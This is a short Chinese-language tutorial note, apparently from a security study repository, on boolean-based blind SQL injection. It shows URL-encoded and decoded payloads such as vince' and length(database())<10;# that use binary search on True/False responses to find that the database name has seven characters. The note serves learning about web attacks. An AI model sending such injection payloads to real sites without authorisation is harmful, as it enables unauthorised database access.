 ### 1、布尔盲注
```yaml
根据返回值的不同（只返回True 或者 False）来进行判断注入的的内容是否正确
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_1.png)
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_2.png)
### 2、疑问
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_3.png)
```yaml
前面这个1就是本身这个功能可以查询到的值就行，比如你去查一个商品，这是网站本身就提供的功能，所以你肯定能知道一个正确的值
```
### 3、用二分法，判断数据库名称的长度
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_4.png)
```yaml
vince%27+and++length%28database%28%29%29%3C10%3B%23 == vince' and  length(database())<10;#
长度小于10，返回True
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_5.png)
```yaml
vince%27+and++length%28database%28%29%29%3C5%3B%23 == vince' and  length(database())<5;#
长度小于5，返回False
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_6.png)
```yaml
vince%27+and++length%28database%28%29%29%3C7%3B%23 == vince' and  length(database())<7;#
长度小于7，返回False
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_7.png)
```yaml
vince%27+and++length%28database%28%29%29%3C8%3B%23 == vince' and  length(database())<8;#
长度小于8，返回True
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_8.png)
#### 通过以上数据，可以判断，数据库名称，长度为7
```yaml
vince%27+and++length%28database%28%29%29%3D7%3B%23 == vince' and  length(database())=7;#
```
![image](https://github.com/498946975/Security/blob/master/images/bool_sql_9.png)

